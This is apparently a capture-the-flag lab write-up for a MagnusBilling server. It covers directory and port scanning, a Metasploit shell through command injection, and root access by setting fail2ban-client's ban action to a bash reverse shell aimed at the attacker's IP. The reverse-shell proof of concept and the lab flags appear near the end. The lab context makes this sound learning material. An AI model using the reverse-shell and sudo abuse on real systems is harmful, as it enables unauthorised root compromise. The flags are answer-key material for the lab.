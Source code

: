 Target ip: 10.10.143.9
My ip:  10.2.3.159

A website is available on port 80:
```bash
> gobuster dir -w `fzf-wordlists` -u http://10.10.143.9:80/mbilling/ -t 50
/archive              (Status: 301) [Size: 321] [--> http://10.10.143.9/mbilling/archive/]
/resources            (Status: 301) [Size: 323] [--> http://10.10.143.9/mbilling/resources/]
/assets               (Status: 301) [Size: 320] [--> http://10.10.143.9/mbilling/assets/]
/lib                  (Status: 301) [Size: 317] [--> http://10.10.143.9/mbilling/lib/]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.143.9/mbilling/tmp/]
/LICENSE              (Status: 200) [Size: 7652]
/protected            (Status: 403) [Size: 276]
```

Nmap Scan:
```bash
> nmap -sC -sV -p- -T4 10.10.143.9
```

The version used of Magnus Billing is vulnerable to command injection.

We get a shell with metsaploit and get the user flag:
`THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

No let's try to escalate privilege.
```
meterpreter > shell

> sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

```

Let's abuse the fail2ban-client used to avoid bruteforce attacks.

```bash
PoC:

sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/10.2.3.159/9001 0>&1'"     
sudo /usr/bin/fail2ban-client set sshd banip 10.2.3.159

```

We put the action ban to be a reverse shell then we purposly ban our ip with a listener. And we get a root reverse shell !

Root flag: `THM{33ad5b530e71a172648f424ec23fae60}`